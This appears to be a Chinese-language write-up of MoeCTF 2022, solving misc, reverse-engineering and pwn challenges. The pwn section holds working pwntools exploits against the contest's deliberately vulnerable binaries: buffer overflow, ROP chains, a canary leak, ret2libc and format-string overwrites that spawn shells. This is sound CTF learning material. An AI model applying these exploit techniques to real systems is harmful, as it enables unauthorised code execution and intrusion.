# Moectf 2022 wp

## misc

### Hide-and-seek

打开文件，露出马脚



复制粘贴

moectf{Hey_U_ve_f0und_m3!}

### Misc杂项之入门指北

### Rabbit

用010editor打开，拖到文件尾，看到在文件尾有一串类似base64的字符，但是解密之后并不是base64



所以是其他加密，尝试性的把题目名称百度一下，发现有个Rabbit加密



解密得到flag

### 小纸条

打开看到图片，一脸懵



所以百度搜索图形加密

在某个网页上滑动的途中看到个 猪圈密码 和这个很像，就尝试解密，得到flag



### 寻找黑客的家

打开文件，看到两个图片


这个图片应该是更重要的，国内的地方，先百度图片搜一下


只看到有个小红书的图片，从图片可以进一个大哥的动态，但是动态里面啥都没有，甚至有人评论问大哥位置



所以还是老实百度地图找吧，搜最明显的两个店名，汉明宫足疗和宜家便利店，找到街景


位置如下


### Locked bass

首先要知道伪加密是什么。

zip伪加密是在文件头的加密标志位做修改，进而再打开文件时识被别为加密压缩包。



在这个文件中，第一个是压缩源文件数据区的全局加密，第二个是压缩源文件目录区的全局方式标记。

无加密
压缩源文件数据区的全局加密应当为00 00
且压缩源文件目录区的全局方式位标记应当为00 00

假加密
压缩源文件数据区的全局加密应当为00 00
且压缩源文件目录区的全局方式位标记应当为09 00

真加密
压缩源文件数据区的全局加密应当为09 00
且压缩源文件目录区的全局方式位标记应当为09 00

（09 00 和 00 00 只是表示的一个例子，只要末位是偶数就是无加密，是奇数就是有加密）

因此修改第二个位置为00 00即可

打开文件得到贝斯，解码即可



### Nyanyanya!

图片隐写先看看哪里呢，先放010editor里面吧。拖到文件尾，看到提示LSB



对于LSB隐写我并不是很清楚，此时就要借助ctfwiki来了解一些知识。



并且在该介绍下方就有stegsolve的推荐，以及LSB的相关例题。

在本题中，图片的alpha通道中始终没有任何信息，则尝试对另外三个通道的最低位进行提取得到flag。



### What do you recognize

拿到文件发现没有后缀，放入010editor中，文件名中似乎有个  '  而导致不能打开，删除  '  ，重新打开



文件头有点问题，改成PNG的文件头就行了。



然后修改后缀为png，得到flag的二维码


### A band

打开文件，看到一堆二进制数，题目描述让我们一层一层还原，所以先还原成十六进制数。（带懒狗只能找在线工具。）


再把下面这堆十六进制处理(去掉标点，前缀)后转成字符


这时可以看到转换后的字符最大都只是f，所以这些还是十六进制字符串，再次转换



得到一堆颜文字（有的网站解出来颜文字不太对），想到颜文字加密。



只有大写字母和数字2-7，是base32，解码得到



这个经过尝试得到是base58，再解码得到



最后这个，最熟悉的当然就是base64了，解码得到flag



### 想听点啥？

打开文件，一个MP3文件，一个mscz文件，还有一个加密的压缩包。



先听听MP3吧，音乐多美。

然后打开mscz文件，要下载musescore才能查看。

在乐谱中找到了压缩包的密码。



打开压缩包，得到flag.txt和qaq.py。flag是用qaq加密过的。已知密文，算法就是flag的相邻两位异或得到对应位，爆破得到flag。前面加上m





### zip套娃

用ARCHPR根据提示爆破就可以得到对应密码

最后一层是伪加密，改一下标志位就能打开了

### cccccrc

在文档受复杂密码保护，但内部文件极小（只有几个字节）时，可直接用crc碰撞得到明文

随便找个脚本都能解



## reverse

### check in

IDA打开，shift+f12打开字符串界面，看到flag


在010里面也可以找到



### Hex

010打开，拖到文件尾，得到flag



### 逆向工程之入门指北

### begin

IDA打开，F5反编译



第11-12行对输入进行异或后与Str2比较，由于异或运算的对称性，直接对Str2每一项异或得到flag



### Base

base64编码首先将A-Z、a-z、0-9和“+/”这64个可打印字符组成一张表。

将待加密数据进行处理，每个字符的ascii编码都有8个bit位，将这些比特位按照字符的顺序进行排列，每次取6个比特进行计算，得到的数作为上述表中的索引得到可打印字符串，最后的比特位不足6的倍数会补=号（对应bit位为0）。

IDA打开文件



虽然看到密文就在这里，但是用在线工具怎么都解不出来

进入base64_decode函数中，找到base64char（就是base64编码的那张索引表），再到数据区查看，发现A-Z被放在了后面



只好自己写脚本，得到flag



直接调试也可以得到flag



### ezTea

这道题给了C源码，要求进行逆向

在所给pdf中可以得到密文，对encrypt函数倒着还原即可

另外这道题的输出部分，采用小端序(即对应数据的低字节端存储在低地址处)的方式输出，内层每次只会输出最低字节位然后右移8位



解密函数如下

```c
void decrypt(uint32_t* v, uint32_t* k)
{
    uint32_t v0 = v[0], v1 = v[1], sum = 0;
    uint32_t delta = 0xd33b470;
    sum += delta * 32;
    for (int i = 0; i < 32; i++)
    {
        v1 -= ((v0 << 4) + k[2]) ^ (v0 + sum) ^ ((v0 >> 5) + k[3]);
        v0 -= ((v1 << 4) + k[0]) ^ (v1 + sum) ^ ((v1 >> 5) + k[1]);
        sum -= delta;
    }
    v[0] = v0;
    v[1] = v1;
}
```

将密文作为输入，即可得到明文

### EquationPy

给了pyc文件 (pyc文件就是由Python文件经过编译后所生成的文件，py文件编译成pyc文件后加载速度更快而且提高了代码的安全性。---百度结果)

找反编译工具得到py源码（[python反编译 - 在线工具 (tool.lu)](https://tool.lu/pyc/)）



看到一堆条件，题目中有提示要用 z3 求解，然后百度z3是什么，可知是一种约束求解器，就是来解这道题的方程组的。

经过一番学习后写出求解脚本

```python
from z3 import *

a,b,c,d,e,f,g,h,i,j,k,l,m,n,o,p,q,r,s,t,u,v,w,x,y,z = Reals('a b c d e f g h i j k l m n o p q r s t u v w x y z')
solver = Solver()
equ = [ a * 7072 + b * 2523 + c * 6714 + d * 8810 + e * 6796 + f * 2647 + g * 1347 + h * 1289 + i * 8917 + j * 2304 + k * 5001 + l * 2882 + m * 7232 + n * 3192 + o * 9676 + p * 5436 + q * 4407 + r * 6269 + s * 9623 + t * 6230 + u * 6292 + v * 57 == 10743134  , a * 3492 + b * 1613 + c * 3234 + d * 5656 + e * 9182 + f * 4240 + g * 8808 + h * 9484 + i * 4000 + j * 1475 + k * 2616 + l * 2766 + m * 6822 + n * 1068 + o * 9768 + p * 1420 + q * 4528 + r * 1031 + s * 8388 + t * 2029 + u * 2463 + v * 32 == 9663091  , a * 9661 + b * 1108 + c * 2229 + d * 1256 + e * 7747 + f * 5775 + g * 5211 + h * 2387 + i * 1997 + j * 4045 + k * 7102 + l * 7853 + m * 5596 + n * 6952 + o * 8883 + p * 5125 + q * 9572 + r * 1149 + s * 7583 + t * 1075 + u * 9804 + v * 72 == 10521461  , a * 4314 + b * 3509 + c * 6200 + d * 5546 + e * 1705 + f * 9518 + g * 2975 + h * 2689 + i * 2412 + j * 8659 + k * 5459 + l * 7572 + m * 3042 + n * 9701 + o * 4697 + p * 9863 + q * 1296 + r * 1278 + s * 5721 + t * 5116 + u * 4147 + v * 52 == 9714028  , a * 2310 + b * 1379 + c * 5900 + d * 4876 + e * 5329 + f * 6485 + g * 6610 + h * 7179 + i * 7897 + j * 1094 + k * 4825 + l * 8101 + m * 9519 + n * 3048 + o * 3168 + p * 2775 + q * 4366 + r * 4066 + s * 7490 + t * 5533 + u * 2139 + v * 87 == 10030960  , a * 1549 + b * 8554 + c * 6510 + d * 6559 + e * 5570 + f * 1003 + g * 8562 + h * 6793 + i * 3509 + j * 4965 + k * 6111 + l * 1229 + m * 5654 + n * 2204 + o * 2217 + p * 5039 + q * 5657 + r * 9426 + s * 7604 + t * 5883 + u * 5285 + v * 17 == 10946682  , a * 2678 + b * 4369 + c * 7509 + d * 1564 + e * 7777 + f * 2271 + g * 9696 + h * 3874 + i * 2212 + j * 6764 + k * 5727 + l * 5971 + m * 5876 + n * 9959 + o * 4604 + p * 8461 + q * 2350 + r * 3564 + s * 1831 + t * 6088 + u * 4575 + v * 9 == 10286414  , a * 8916 + b * 8647 + c * 4522 + d * 3579 + e * 5319 + f * 9124 + g * 9535 + h * 5125 + i * 3235 + j * 3246 + k * 3378 + l * 9221 + m * 1875 + n * 1008 + o * 6262 + p * 1524 + q * 8851 + r * 4367 + s * 7628 + t * 9404 + u * 2065 + v * 9 == 11809388  , a * 9781 + b * 9174 + c * 3771 + d * 6972 + e * 6425 + f * 7631 + g * 8864 + h * 9117 + i * 4328 + j * 3919 + k * 6517 + l * 7165 + m * 6895 + n * 3609 + o * 3878 + p * 1593 + q * 9098 + r * 6432 + s * 2584 + t * 8403 + u * 4029 + v * 30 == 13060508  , a * 2511 + b * 8583 + c * 2428 + d * 9439 + e * 3662 + f * 3278 + g * 8305 + h * 1100 + i * 7972 + j * 8510 + k * 8552 + l * 9993 + m * 6855 + n * 1702 + o * 1640 + p * 3787 + q * 8161 + r * 2110 + s * 5320 + t * 3313 + u * 9286 + v * 74 == 10568195  , a * 4974 + b * 4445 + c * 7368 + d * 9132 + e * 5894 + f * 7822 + g * 7923 + h * 6822 + i * 2698 + j * 3643 + k * 8392 + l * 4126 + m * 1941 + n * 6641 + o * 2949 + p * 7405 + q * 9980 + r * 6349 + s * 3328 + t * 8766 + u * 9508 + v * 65 == 12514783  , a * 4127 + b * 4703 + c * 6409 + d * 4907 + e * 5230 + f * 3371 + g * 5666 + h * 3194 + i * 5448 + j * 8415 + k * 4525 + l * 4152 + m * 1467 + n * 5254 + o * 2256 + p * 1643 + q * 9113 + r * 8805 + s * 4315 + t * 8371 + u * 1919 + v * 2 == 10299950  , a * 6245 + b * 8783 + c * 6059 + d * 9375 + e * 9253 + f * 1974 + g * 8867 + h * 6423 + i * 2577 + j * 6613 + k * 2040 + l * 2209 + m * 4147 + n * 7151 + o * 1011 + p * 9446 + q * 4362 + r * 3073 + s * 3006 + t * 5499 + u * 8850 + v * 23 == 11180727  , a * 1907 + b * 9038 + c * 3932 + d * 7054 + e * 1135 + f * 5095 + g * 6962 + h * 6481 + i * 7049 + j * 5995 + k * 6233 + l * 1321 + m * 4455 + n * 8181 + o * 5757 + p * 6953 + q * 3167 + r * 5508 + s * 4602 + t * 1420 + u * 3075 + v * 25 == 10167536  , a * 1489 + b * 9236 + c * 7398 + d * 4088 + e * 4131 + f * 1657 + g * 9068 + h * 6420 + i * 3970 + j * 3265 + k * 5343 + l * 5386 + m * 2583 + n * 2813 + o * 7181 + p * 9116 + q * 4836 + r * 6917 + s * 1123 + t * 7276 + u * 2257 + v * 65 == 10202212  , a * 2097 + b * 1253 + c * 1469 + d * 2731 + e * 9565 + f * 9185 + g * 1095 + h * 8666 + i * 2919 + j * 7962 + k * 1497 + l * 6642 + m * 4108 + n * 6892 + o * 7161 + p * 7552 + q * 5666 + r * 4060 + s * 7799 + t * 5080 + u * 8516 + v * 43 == 10435786  , a * 1461 + b * 1676 + c * 4755 + d * 7982 + e * 3860 + f * 1067 + g * 6715 + h * 4019 + i * 4983 + j * 2031 + k * 1173 + l * 2241 + m * 2594 + n * 8672 + o * 4810 + p * 7963 + q * 7749 + r * 5730 + s * 9855 + t * 5858 + u * 2349 + v * 71 == 9526385  , a * 9025 + b * 9536 + c * 1515 + d * 8177 + e * 6109 + f * 4856 + g * 6692 + h * 4929 + i * 1010 + j * 3995 + k * 3511 + l * 5910 + m * 3501 + n * 3731 + o * 6601 + p * 6200 + q * 8177 + r * 5488 + s * 5957 + t * 9661 + u * 4956 + v * 48 == 11822714  , a * 4462 + b * 1940 + c * 5956 + d * 4965 + e * 9268 + f * 9627 + g * 3564 + h * 5417 + i * 2039 + j * 7269 + k * 9667 + l * 4158 + m * 2856 + n * 2851 + o * 9696 + p * 5986 + q * 6237 + r * 5845 + s * 5467 + t * 5227 + u * 4771 + v * 72 == 11486796  , a * 4618 + b * 8621 + c * 8144 + d * 7115 + e * 1577 + f * 8602 + g * 3886 + h * 3712 + i * 1258 + j * 7063 + k * 1872 + l * 9855 + m * 4167 + n * 7615 + o * 6298 + p * 7682 + q * 8795 + r * 3856 + s * 6217 + t * 5764 + u * 5076 + v * 93 == 11540145  , a * 7466 + b * 8442 + c * 4822 + d * 7639 + e * 2049 + f * 7311 + g * 5816 + h * 8433 + i * 5905 + j * 4838 + k * 1251 + l * 8184 + m * 6465 + n * 4634 + o * 5513 + p * 3160 + q * 6720 + r * 9205 + s * 6671 + t * 7716 + u * 1905 + v * 29 == 12227250  , a * 5926 + b * 9095 + c * 2048 + d * 4639 + e * 3035 + f * 9560 + g * 1591 + h * 2392 + i * 1812 + j * 6732 + k * 9454 + l * 8175 + m * 7346 + n * 6333 + o * 9812 + p * 2034 + q * 6634 + r * 1762 + s * 7058 + t * 3524 + u * 7462 + v * 11 == 11118093 ]
for i in equ:
    solver.add(i)
if solver.check() == sat:
    result = solver.model()
print(result)

```


### D flat

看到提示之后才逐渐会做。。。

IDA打开exe文件，里面什么都没有，查字符串也没有应该有的字符

那肯定就是在dll里面，dll是程序运行过程中的动态链接库，便于将程序划分为不同模块，方便修改，且可以多个程序共享。

IDA载入dll文件，看到的熟悉的moectf字符串


再往下看，看到了判断的位置，但是还是没有具体逻辑



用x64dbg调试下试试吧，一直运行直到输入flag部分，先随便输下，此时dll已经载入，现在就是dll里面的逻辑，f8持续单步



当到达某个位置时会进入循环，且注释位置每次循环都会减少一位，这里就是flag验证的部分，会把flag和输入分别取出到r9和r8进行比较



其中[rax+r8+10]指向输入部分，[rdi+r8*4+10]指向flag部分

在内存窗口中转到flag位置



### Android Cracker

apk逆向，先下个jadx，找到main函数就找到了flag



### chicken soup

IDA打开


重要加密函数两片飘红，程序中插入了E9，导致后面的机器码被认为是其操作数，将其改为90(nop)即可。

修改后看到第一个函数是将每个字节都加上下一个字节。



第二个函数是将每个字节的16倍（考虑溢出）和该字节的高四个比特位进行或运算。



解密脚本如下

```c
int main()
{
	char key[] = { 0xcd,0x4d,0x8c,0x7d,0xad,0x1e,0xbe,0x4a,0x8a,0x7d,0xbc,0x7c,0xfc,0x2e,0x2a,0x79,0x9d,0x6a,0x1a,0xcc,0x3d,0x4a,0xf8,0x3c,0x79,0x69,0x39,0xd9,0xdd,0x9d,0xa9,0x69,0x4c,0x8c,0xdd,0x59,0xe9,0xd7,0x00};
	int len = strlen(key);

	char result[39] = {'m','o',0x8c,0x7d,0xad,0x1e,0xbe,0x4a,0x8a,0x7d,0xbc,0x7c,0xfc,0x2e,0x2a,0x79,0x9d,0x6a,0x1a,0xcc,0x3d,0x4a,0xf8,0x3c,0x79,0x69,0x39,0xd9,0xdd,0x9d,0xa9,0x69,0x4c,0x8c,0xdd,0x59,0xe9,0xd7,0x00};
	for (int i = 0; i < 38; i++)
	{
		for (int j = 0x20; j < 0xff; j++)
		{
			char x = (result[i] + j) * 16;
			char y = (int)(unsigned __int8)(result[i] + j) >> 4;
			if ((x | y) == key[i])
			{
				result[i + 1] = j;
			}
		}
	}
	puts(result);
	return 0;
}
```


### fake key

IDA打开，f5反编译



看到加密部分，同时还有提示，调试可以看到key和rand()产生的随机数，但该题没有随机种子，所以直接rand()和题目中产生的值相同。



脚本如下

```c
#define _CRT_SECURE_NO_WARNINGS
#include<stdio.h>
#include<string.h>

int main()
{
	char des[] = { 0x15,0x21,0xf,0x19,0x25,0x5b,0x19,0x39,0x5f,0x3a,0x3b,0x30,0x74,0x7,0x43,0x3f,0x9,0x5a,0x34,0xc,0x74,0x3f,0x1e,0x2d,0x27,0x21,0x12,0x16,0x1f,0x00};
	char key[] = "yunzh1junTCL,trackYYDS";

	int len = strlen(des);

	for (int i = 0; i < len; i++)
		des[i] -= rand() % 10;
	for (int i = 0; i < len; i++)
		des[i] ^= key[i % 22];

	puts(des);
	return 0;
}
```

### EzRisc-V

IDA打不开，提示没有risc-v相关脚本

百度搜索IDA相关risc-v脚本，github有一个py脚本，按照提示配置IDA

再次尝试打开



main函数看不懂，跟着字符串也找不到该有的东西。

看群友水群说还有个ghidra，于是安装之。

用ghidra打开，找到main函数，如愿看到了伪代码



可以看到只是简单的异或，脚本如下

```C
#include<stdio.h>

int main()
{
	char var[] = { 0x54,0x56,0x5c,0x5a,0x4d,0x5f,0x42,0x4b,0x08,0x4a,0x5a,0x14,0x4f,0x66,0x08,0x4a,0x66,0x4a,0x56,0x09,0x09,0x56,0x56,0x66,0x08,0x57,0x4d,0x5c,0x4b,0x5c,0x4a,0x4d,0x08,0x57,0x00,0x18,0x18,0x18,0x44,0x00};
	for (int i = 0; i<40; i++)
	{
		printf("%c", var[i] ^ 0x39);
	}

	return 0;
}
```

### fake code

这个pdf完全就是在教怎么做这道题，找到对应位置后直接看反汇编就可以知道算法

程序在运行中出现了除零异常，因此跳转到了except异常处理

该位置汇编如下，dword_7FF667445000就是你的输入



转成c就是               ((0x65 + (n * 0x61)) % 0xe9)^0x29

回到主程序



上面的汇编计算的是    byte_7FF667445010   数组的下标，因为是异或运算，所以直接将 byte_7FF667445010 和 sub_7FF667445110 异或即可得到flag （调试时发现有些时候不会进入except，但是不知道是哪些情况，就一个一个试出来了，发现在  i == 4*k + 2 时不会进入except，也就是下标不变）

脚本如下

```c
#define _CRT_SECURE_NO_WARNINGS
#include<stdio.h>
#include<string.h>

int main()
{
	char key[] = { 0x1e,0x70,0x7a,0x6e,0xea,0x83,0x9e,0xef,0x96,0xe2,0xb2,0xd5,0x99,0xbb,0xbb,0x78,0xb9,0x3d,0x6e,0x38,0x42,0xc2,0x86,0xff,0x63,0xbd,0xfa,0x79,0xa3,0x6d,0x60,0x94,0xb3,0x42,0x11,0xc3,0x90,0x89,0xbd,0xef,0xd4,0x97,0xf8,0x7b,0x8b,0xb,0x2d,0x75,0x7e,0xdd,0xcb,0x00};
	unsigned int n = 0x19;
	char array[] = { 0xAC , 0x4, 0x58 , 0xB0 , 0x45 , 0x96 , 0x9F , 0x2E , 0x41 , 0x15 , 0x18 ,
					0x29 , 0x0B1 , 0x33 , 0x0AA , 0x12 , 0x0D , 0x89 , 0x0E6 , 0x0FA , 0x0F3 ,
					0x0C4 , 0x0BD , 0x0E7 , 0x70 , 0x8A , 0x94 , 0x0C1 , 0x85 , 0x9D , 0x0A3 ,
					0x0F2 , 0x3F , 0x82 , 0x8E , 0x0D7 , 0x3, 0x93 , 0x3D , 0x13 , 0x5, 0x6B ,
					0x41 , 0x3, 0x96 , 0x76 , 0x0E3 , 0x0B1 , 0x8A , 0x4A , 0x22 , 0x55 , 0x0C4 ,
					0x19 , 0x0F5 , 0x55 , 0x0A6 , 0x1F , 0x0E , 0x61 , 0x27 , 0x0CB , 0x1F ,
					0x9E , 0x5A , 0x7A , 0x0E3 , 0x15 , 0x40 , 0x94 , 0x47 , 0x0DE , 0x0, 0x1,
					0x91 , 0x66 , 0x0B7 , 0x0CD , 0x22 , 0x64 , 0x0F5 , 0x0A5 , 0x9C , 0x68 ,
					0x0A5 , 0x52 , 0x86 , 0x0BD , 0x0B0 , 0x0DD , 0x76 , 0x28 , 0x0AB , 0x16 ,
					0x95 , 0x0C5 , 0x26 , 0x2C , 0x0F6 , 0x39 , 0x0BE , 0x0, 0x0A5 , 0x0AD ,
					0x0E3 , 0x93 , 0x9E , 0x0E3 , 0x5, 0x0A0 , 0x0B0 , 0x1D , 0x0B0 , 0x16 ,
					0x0B , 0x5B , 0x33 , 0x95 , 0x0A4 , 0x9, 0x16 , 0x87 , 0x56 , 0x1F , 0x83 ,
					0x4E , 0x4A , 0x3C , 0x55 , 0x36 , 0x6F , 0x0BB , 0x4C , 0x4B , 0x9D , 0x0B1 ,
					0x0AE , 0x0E5 , 0x8E , 0x0C8 , 0x0FB , 0x0E , 0x29 , 0x8A , 0x0BB , 0x0FC ,
					0x20 , 0x62 , 0x4, 0x2D , 0x80 , 0x61 , 0x0D6 , 0x0C1 , 0x0CC , 0x3B , 0x89 ,
					0x0C5 , 0x8B , 0x0D5 , 0x26 , 0x58 , 0x0D6 , 0x0B6 , 0xA0 , 0x50 , 0x75 ,
					0x0AB , 0x17 , 0x83 , 0x7F , 0x37 , 0x2B , 0x0A0 , 0x1D , 0x2C , 0x0CF ,
					0x0C7 , 0x0E0 , 0x0E5 , 0x49 , 0x0C9 , 0x0FA , 0x6B , 0x0C0 , 0x98 , 0x66 ,
					0x99 , 0x92 , 0x0, 0x2, 0x0D4 , 0x75 , 0x46 , 0x22 , 0x5, 0x35 , 0x0D1 , 0x4B ,
					0x0C5 , 0x0AD , 0x0E0 , 0x8E , 0x45 , 0x3B , 0x50 , 0x15 , 0x0B5 , 0x2E ,
					0x85 , 0x30 , 0x89 , 0x54 , 0x12 , 0x0DE , 0x0F1 , 0x5A , 0x0F0 , 0x2B ,
					0x0A7 , 0x1B , 0x4A , 0x26 , 0x5D , 0x98 , 0x0D4 , 0x0A1 , 0x0BE , 0x0D1 ,
					0x4D , 0x7E , 0x38 , 0xDE , 0x0B , 0x0A , 0x54 , 0x0B8 , 0x73 , 0x6D ,
					0x0AD , 0x8C , 0x1E , 0x0D9 , 0x31 , 0x5F , 0x56 , 0x7E , 0x0BD , 0x48 ,
					0x32 , 0x98 , 0x2E , 0x3E , 0x0EB , 0x0A2 , 0x1D };
	
	for (int i = 0; key[i]; i++)
	{
		if(i!=2&&i!=6&&i!=10&&i!=14&&i!=18&&i!=22&& i != 26 && i != 30 && i != 34 && i != 38 && i != 42 && i != 46 &&i!=50)
			n = ((0x65 + (n * 0x61)) % 0xe9)^0x29;	
		for (int j = 0x20; j < 0x80; j++)
		{
			if (j == (key[i]^array[n]))
			{
				printf("%c", j);
			}
		}
	}

	return 0;
}
```

### Art

程序加壳，UPX



直接脱

也可以手动脱，但是我是懒狗

分析脱壳后的程序



sub_401550应该就是hash校验吧（或许是吧），那具体的加密就只有第二个for了

在写脚本的过程中发现每个值会对应多个结果，写不出一次性脚本，就只能一个一个试了

试的脚本如下

```c
char key[] = {2,0x18,0xf,0xf8,0x19,4,0x27,0xd8,0xe8,0x0,0x35,0x48,0x4d,0x2a,0x45,0x6b,0x59,0x2e,0x43,1,0x18,0x5c,9,9,9,9,0xb5,0x7d };

		for (int j = 0x20; j < 0x80; j++)
		{
			if ((j ^ ((j % 17 + '}') ^ 0x19)) == 0xb5)
			{
				printf("%c\n", j);
			}
		}
```

我是从后面往前面试的，每次替换下 ‘}’ 和 0xb5 就行了

### broken hash

ida打开看到


改好看点


encode函数里面还挺复杂的，看了好长时间看不懂，最后看到hint说是要patch后爆破，就去搜了搜爆破方法

先patch程序，使其能输出正确的长度

改一下  if(judge)......else...... 的else部分语句就行

patch前


patch后



测试输入输出



然后写爆破脚本

```python
from subprocess import Popen,PIPE

flag = 'moectf{AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'

print(len(flag))
ans = ''
k = 7
while(k<=88):
    for i in range(33,127):
        p = Popen("此处为绝对路径",shell = True,stdin = PIPE,stdout = PIPE, text=True, bufsize=0)
        #p.wait()
        ans = list(flag)
        ans[k] = chr(i)
        ans = ''.join(ans)
        #ans += '}'
        p.stdin.write((ans+'\n'))
        stdout,stderr = p.communicate()
        #print(ans)
        if k<=8:
            check = stdout[-1]
        else:
            check = stdout[-2] + stdout[-1]
        if(int(check) >= k+1):
            flag = list(flag)
            flag[k] = chr(i)
            flag = ''.join(flag)
            k += 1
            print(flag)
            print(k)
            break
```

## pwn

### 二进制漏洞审计之入门指北

### shell

shell中nc ip port即得flag

### filedes

IDA打开看到



第一个输入1，第二个输入0即可得到flag

read()的fd输入0会从标准输入读取字符覆盖flag

### border

IDA打开



可看到输入小于0x40时可进入读取，byte_6010C0和byte_6010E0连在一起，puts可全部输出，content输入15个1然后回车可打印出完整flag



### buffer overflow



用read()的越界输入覆盖到v5，修改v5为 'Limiter and Wings are beautiful girls!' ，最后要加上 \x00,作为strcmp识别结束的标志

```python
#!/usr/bin/env python3
from pwn import*

io = remote("moectf.challenge.ctf.show",27001)
#io = process("./buffer_overflow")

length = 70
key = "Limiter and Wings are beautiful girls!"

payload = ('A'*length).encode() + key.encode() + b'\x00'
io.send(payload)
io.interactive()
```

### int_overflow



不能输入负数，直接计算器     0x100000000-对应数字    就行

### endian



只允许输入整数，把s2看成首地址，计算器把字符串对应的十六进制数字转成十进制，分别输入到s2，v5里面，注意小端序

exp：

```python
#!/usr/bin/env python3
from pwn import *

#io = remote("43.136.137.17",3912)
io = process("./endian")

num1 = '1634429261'
num2 = '1112436596'

io.sendline(num1)
io.sendline(num2)
io.interactive()
```

### random



程序主体部分，可以看到随机数以时间为种子，那么只要是同一秒内执行的操作，就可以产生完全相同的随机数，而程序运行时间通常很短，因此直接编写C程序得到对应的随机数再进行交互即可。

C程序如下:

```c
#include<stdio.h>

int main()
{
    unsigned int x = time(0);
    srand(x);
    int a1 = rand();
    int a2 = rand()^a1;
    int a3 = rand();
    srand(a2^a3);
    rand();rand();rand();
    printf("%d\n",rand());
    return 0;
}
```

exp:

```python
#!/usr/bin/env python3
from pwn import *

io = process("./calc_time")
result = io.recvline(keepends=False)
print(result)
io = remote("43.136.137.17",3911)

#io = process("./random_num")

name = '123'
passwd = 'ls_4nyth1n9_7ruIy_R4nd0m?'+'\x00'

io.recvuntil("username: ".encode())
io.sendline(name.encode())
io.recvuntil('password: '.encode())
io.sendline(passwd.encode())
io.recvuntil("now.\n".encode())
io.send(result)

io.interactive()
```

### rop32

检查保护



程序给了  ‘/bin/sh’  字符串，还有 system  函数，直接构造payload就可以直接getshell

exp:

```python
#!/usr/bin/env python3
from pwn import *

io = remote("moectf.challenge.ctf.show",27003)
#io = process("./rop32")

offset = 0x1c + 0x4
bin_sh_addr = 0x804c024
sys_addr = 0x80491e7

payload = ('A'*offset).encode() + p32(sys_addr) + p32(bin_sh_addr)
io.sendline(payload)
io.interactive()
```

### rop64

检查保护



发现有canary，用来保护栈不被破坏，因此要泄露canary的值



题中给了两个read函数，中间还有个printf函数，可以直接覆盖到canary的最后一个字节（canary的最后一个字节一般为0，因为小端存储，位于内存的左端，覆盖之后可以使输入的字符串连接到canary，从而将canary输出）

没开PIE，程序中也有 /bin/sh 和 system 函数，利用pop_rdi gadget（64位程序传参会先用寄存器，rdi，rsi，rdx，rcx...）直接构造就行



exp:

```python
#!/usr/bin/env python3
from pwn import*

#io = remote("124.223.158.81",27004)
io = process("./rop64")
context.log_level = 'debug'

offset = 40
payload1 = ('A'*offset).encode()
io.recvline()
io.sendline(payload1)

pop_rdi = 0x4011de
bin_sh = 0x404058
sys_addr = 0x401284

#attach(io)
io.recvline()
canary = u64(io.recv(7).rjust(8,b'\x00'))
print(hex(canary))

payload2 = ('A'*offset).encode() + p64(canary) + b'AAAAAAAA' + p64(pop_rdi) + p64(bin_sh) + p64(sys_addr)
io.sendline(payload2)

io.interactive()
```

### syscall

检查保护



开了PIE，但是给了gadget地址，那等于没开，获取之后计算偏移





题目名称syscall，找找除了pop_rdi还有没有其他gadget





既有pop_rsi  ,  还有pop_rsi ，syscall     (32位程序通过int 0x80 进行系统调用,  64位程序通过syscall进行系统调用，分别通过对应寄存器传参，rax(eax)保存系统调用号 ）

没看到rax相关的gadget，但是函数的返回值一般保存在 rax 中，而且程序中给了两个read



execve的系统调用号为 59 ，因此最后读取 58个字符 加上回车符就可以控制rax

exp:

```python
#!/usr/bin/env python3
from pwn import*

io = remote("124.223.158.81",27005)
#io = process("./syscall")

io.recvline()
gadget = int(io.recvline(keepends = False),16)
#print(hex(int(gadget,16)))

#attach(io, 'b read')
syscall_addr = gadget - 0x11a9 + 0x11b6
offset = 0x40 + 8
pop_rdi = gadget + 8
bin_sh = gadget - 0x11a9 + 0x4010
pop_rsi_rdx = gadget - 0x11a9 + 0x11b3
payload1 = ('A'*offset).encode() + p64(pop_rdi) + p64(bin_sh) + p64(pop_rsi_rdx) + p64(0) + p64(0) + p64(syscall_addr)
io.sendline(payload1)
io.sendline(('A'*58).encode())              # rax = 输入长度 + 1

io.interactive()
```

### ret2libc

查看保护



只开了NX

程序也很简单，一个read读取越界就完了，使用了puts，同时有gadget



则可以用puts先泄露出libc的偏移，然后再次执行main函数，最后getshell（这里要用到LibcSearcher）

payload2里面的 ret 用来平衡栈，64位程序只有在栈为16字节对齐时才会调用函数

exp:

```C
#!/usr/bin/env python3
from pwn import*
from LibcSearcher import*

io = remote("124.223.158.81", 27006)
#io = process("./ret2libc")
elf = ELF("./ret2libc")

puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
pop_rdi = 0x40117e

offset = 0x40 + 0x8
main = elf.symbols['main']
payload1 = ('A'*offset).encode() + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main)
io.recvline()
io.sendline(payload1)

puts = u64(io.recv(6).ljust(8, b'\x00'))
#print(puts)

libc = LibcSearcher("puts", puts)
libcbase = puts - libc.dump('puts')
bin_sh_addr = libcbase + libc.dump('str_bin_sh')
sys_addr = libcbase + libc.dump('system')
ret_addr = 0x40117f

payload2 = ('A'*offset).encode() + p64(ret_addr) + p64(pop_rdi) + p64(bin_sh_addr) + p64(sys_addr)
io.sendline(payload2)

io.interactive()
```

### babyfmt



32位，只开了NX



有后门

题中给了个gift，但是不知道有什么用，后面也想了比较久

最后用了控制执行流，但是 printf 在 无限循环 里面，不可能控制main函数的返回地址，只能想到修改 printf 的函数栈后面的返回地址

gdb调试到printf函数里面



返回地址对应栈地址为 0xffffd05c

给printf输入%p.%p.%p.%p，再在printf的函数栈里面找到一个比较接近它的值，结果发现printf输出的第一个参数的值就最接近



反复调试，结果一致，两个地址相差 0x30，用%hhn进行字节修改为后门地址（%n本身为四字节修改，多一个h短一半，两个h就是单字节）

---------貌似可以直接修改got表。（我是彩笔）

exp:

```python
#!/usr/bin/env python3
from pwn import *

io = remote("43.136.137.17",3913)
#io = process("./babyfmt")
context(os = 'linux',arch = 'i386',log_level = 'debug')

io.recvline()

payload1 = b'%p'
io.sendline(payload1)
stack_value = int(eval(str(io.recv(10))),16)
#attach(io)
payload2 = p32(stack_value-0x30) + p32(stack_value-0x2f) + b'%125c%12$hhn' + b'%31c%11$hhn'
io.sendline(payload2)

io.interactive()
```

### shellcode

题面都是shellcode了，应该不会开NX了



IDA打开，不能F5，但是pwn题还是能看看汇编的





可以看到先设置s数组为0，再gets得到用户输入，最后直接跳转到s位置执行s对应机器码

